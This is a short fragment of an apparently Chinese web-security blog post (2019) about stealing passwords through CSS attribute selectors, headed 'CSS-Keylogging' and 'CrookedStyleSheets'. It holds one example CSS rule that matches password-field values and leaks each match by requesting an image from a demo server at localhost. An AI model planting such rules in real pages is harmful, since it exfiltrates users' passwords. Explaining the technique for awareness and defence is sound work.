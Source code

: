 ```yaml
---
layout:     post
title:      一种通过CSS选择器盗取用户密码的攻击方式
subtitle:   web安全,不一样的css
date:       2019-03-12 13:57
author:     Youga
header-img: http://static.cjwddz.cn/blog/img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
  - web
  - security
---
```


input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }

CSS-Keylogging

CrookedStyleSheets